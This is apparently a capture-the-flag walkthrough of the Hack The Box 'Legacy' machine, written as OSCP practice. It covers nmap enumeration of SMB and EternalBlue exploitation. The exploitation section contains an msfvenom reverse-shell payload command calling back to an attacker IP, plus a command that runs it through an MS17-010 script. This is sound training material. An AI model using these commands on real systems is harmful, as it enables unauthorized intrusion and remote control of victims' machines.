 ```yaml
---
title: Hack the Box - Legacy
date: 2022-08-15 14:45:00 -500 
categories: [OSCP Prep,Hack the Box]
tags: [oscp,windows]
---
```


# Legacy Overview

## Machine Details

| IP | Hostname | Operating System |
|----|----------|------------------|
| 10.10.10.4 | Legacy | Windows |

## Path to Exploitation

This box has a very straight-forward path to exploitation. We leverage the Eternal Blue vulnerability to grant us full access to the machine. 

# Enumeration

## Full Port Scan

```bash
nmap -p- -Pn 10.10.10.3 -oA nmap/full-port 
```
Results:

| PORT | STATE | SERVICE |
|------|-------|---------|
| 135 | open | msrpc |
| 139 | open | netbios-ssn |
| 445 | open | microsoft-ds |

## Service Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

| PORT | STATE | SERVICE | VERSION |
|------|-------|---------|---------|
| 135 | open | msrpc | Microsoft Windows RPC |
| 139 | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | open | microsoft-ds | Windows XP microsoft-ds |

## SMB Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

![SMB Scan](/assets/HackTheBox/Legacy/smb-scan.png "SMB Scan")

Host is vulnerable to MS08-67 and MS17-010

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/cyberhexe/eternalblue/blob/master/send_and_execute.py) script to launch our reverse shell on the host

First we need to generate our reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe-service -o evil.exe
```

Then use the script to execute it 

```bash
python /opt/MS17-010/send_and_execute.py 10.10.10.4 evil.exe
```

We see we have a shell running on the host

![Reverse Shell](/assets/HackTheBox/Legacy/rev-shell.png "Reverse Shell")
